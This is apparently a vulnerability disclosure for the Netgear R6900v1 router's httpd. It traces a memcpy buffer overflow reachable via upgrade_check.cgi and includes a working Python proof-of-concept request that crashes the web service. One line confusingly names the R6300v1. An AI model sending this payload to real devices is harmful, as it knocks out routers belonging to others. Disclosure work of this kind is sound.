 # Netgear R6900v1 router Denial of service vulnerability

## Basic information

Supplier: Netgear
Product: R6900v1
Firmware version: R6900-V1.0.1.26_1.0.20

## Vulnerability description

A buffer overflow vulnerability exists in the binaries of the R6300v1 firmware version. The vulnerability is located in the sub_18334 function in the /usr/sbin/httpd file (R6900-V1.0.1.26_1.0.20 version), memcpy(s, src, v2) Copying contiguous v2 bytes of data from src to a memory area starting with s causes the target memory area (s) to not be large enough to hold the data from the source memory area (src), because the value of v2 reads four contiguous bytes from the memory pointed to by the src pointer. Combine them in a specific byte order (based on the index value) into a 32-bit integer that may be larger than the memory length of the variable s, resulting in a buffer overflow, as shown in the figure below.

Previously, it was necessary to bypass the judgment of strcmp((const char)src, "#$^"), src had to be *#$^, which could be followed by the 0x00 character to cause truncation.

![image-20241125180023503](Netgear_R6900.assets/image-20241125180023503.png)

After IDA's use, sub_12CC8 calls sub_18334, where the variable v77 is passed real, it can be seen that the variable s1 needs to meet the 'name="mtenFWUpload"\r\n\r\n' string, the string data as sub_18334.

At the same time, if you want to execute this, the variable v117 must be 1, otherwise jump, but the value of v117 is assigned to 0 in line 713, as shown below.

![image-20241125180052319](Netgear_R6900.assets/image-20241125180052319.png)

As can be seen in the following process, the http request must have a while ring returned by the upgrade_check.cgi character.

![image-20241125180109532](Netgear_R6900.assets/image-20241125180109532.png)

However, in order to reach this place, certain conditions must be met, that is, to reach LABEL272, as show in the figure below.

![image-20241125180125997](Netgear_R6900.assets/image-20241125180125997.png)

## Vulnerability verification

Normal access to the router web side:

![image-20241125180221302](Netgear_R6900.assets/image-20241125180221302.png)

A vulnerability exists on the upgrade_check.cgi page

![image-20241125180235814](Netgear_R6900.assets/image-20241125180235814.png)

If the upgrade_check.cgi page is accessed normally, the system automatically switches to the normal web terminal

![image-20241125180247692](Netgear_R6900.assets/image-20241125180247692.png)

### poc

Write POC for testing

```
import requests

data1 = "*#$^"
data1 += "\x00\xFF\xFF\xFF"
data1 = data1.ljust(0xFFFF, 'A')


payload = ''
payload += 'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += 'Host: 192.168.1.1\r\n'
payload += 'Content-Disposition: AAAA\r\n'
payload += 'Content-Length: {}\r\n'.format(len(data1) + 1)
payload += 'Content-Type: application/octet-stream\r\n'
payload += 'name="mtenFWUpload"\r\n'
payload += '\r\n'
payload += data1

print(payload)

headers = {'Content-Length': str(len(payload))}

url = 'http://192.168.1.1:80/upgrade_check.cgi'
response = requests.post(url, headers=headers, data=payload)

print(response.text)
```

In order to verify the existence of the vulnerability, the test is performed using real devices, as shown below, and the service can be successfully started

![image-20240530153012560](Netgear_R6900.assets/image-20240530153012560.png)

Run the poc script, refresh the page, find that the service crashes, and the vulnerability verification succeeds.

![image-20240530153046472](Netgear_R6900.assets/image-20240530153046472.png)
